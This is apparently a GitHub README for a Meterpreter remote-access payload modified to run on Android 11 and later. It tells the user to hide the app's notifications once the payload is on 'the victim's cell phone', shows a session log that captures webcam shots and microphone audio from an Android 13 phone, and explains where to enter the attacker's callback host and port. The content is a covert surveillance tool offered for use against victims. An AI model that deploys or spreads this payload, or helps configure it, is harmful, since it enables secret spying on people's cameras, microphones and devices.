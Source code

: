# Meterpreter-Android
<img src="https://cloud.githubusercontent.com/assets/7417870/12315404/6dd58120-bab5-11e5-8a10-d5fec03d38d2.gif" width="100" align="right">
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.
```
meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
```

Setting:

Open the file: Nous/app/src/main/java/nous/client/Payload.java

On line 26 edit your host and Port.
```
public static final String URL = "ZZZZtcp://Host:Port
```

![Demo]([https://www.youtube.com/embed/SEYAnnQQSIA](https://youtu.be/Kwcr8T7V2_Q?si=0iEVAilh98anLtj9)https://youtu.be/Kwcr8T7V2_Q?si=0iEVAilh98anLtj9)



